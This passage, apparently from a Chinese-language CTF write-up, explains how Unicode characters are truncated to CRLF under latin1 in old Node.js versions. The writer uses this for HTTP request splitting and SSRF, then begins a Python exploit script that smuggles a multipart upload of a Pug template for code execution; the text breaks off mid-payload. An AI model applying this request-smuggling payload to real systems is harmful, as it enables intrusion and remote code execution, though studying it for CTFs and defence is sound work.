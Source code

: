 **说到底就是\r\n成功生效**

接收服务将此解释为两个单独的HTTP请求，一个GET后跟一个DELETE

好的HTTP库通通常包含阻止这一行为的措施，Node.js也不例外：如果你尝试发出一个路径中含有控制字符的HTTP请求，它们会被URL编码：

```
http.get('http://example.com/\r\n/test').output
[ 'GET /%0D%0A/test HTTP/1.1\r\nHost: example.com\r\nConnection: close\r\n\r\n' ]

```

但是，上述的处理unicode字符错误意味着可以规避这些措施。考虑如下的url，其中包含一些带变音符号的unicode字符

```
'http://example.com/\u{010D}\u{010A}/test'
http://example.com/čĊ/test

```

当Node.js版本8或更低版本对此URL发出GET请求时，它不会进行转义，因为它们不是HTTP控制字符：

```
http.get('http://example.com/\u010D\u010A/test').output
[ 'GET /čĊ/test HTTP/1.1\r\nHost: example.com\r\nConnection: close\r\n\r\n' ]

```

但是当结果字符串被编码为latin1写入路径时，这些字符将分别被截断为“\r”和“\n”：

```
Buffer.from('http://example.com/\u{010D}\u{010A}/test', 'latin1').toString()
'http://example.com/\r\n/test'

```

Node.js默认使用“latin1”，这是一种单字节编码，不能表示高编号的unicode字符

说白了，上面这段的意思就是我们可以利用一些特殊字符，它们在URL请求时不会被转义处理，但是当它到了js引擎时，由于其默认用的是latin1，因此可以将我们用的特殊字符转义得到我们需要的字符，从而达到ssrf的目的

原理了解完后，接下来利用那个上传页面上传一个文件，burp suite 抓下包

![image-20241011213825366](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410112138569.png)

然后下面就是如何构造http走私了，下面这个是rce的脚本，由于有黑名单验证，可以拼接绕过，然后由于pug模板引擎，需要在前面加上-，来表示开始一段代码
		我们到网上找个脚本

```
import urllib.parse
import requests

payload = ''' HTTP/1.1
Host: x
Connection: keep-alive

POST /file_upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryO9LPoNAg9lWRUItA
Content-Length: {}
cache-control: no-cache
Host: 127.0.0.1
Connection: keep-alive 

{}'''
body='''------WebKitFormBoundaryO9LPoNAg9lWRUItA
Content-Disposition: form-data; name="file"; filename="lmonstergg.pug"
Content-Type: ../template

doctype html
html
  head
```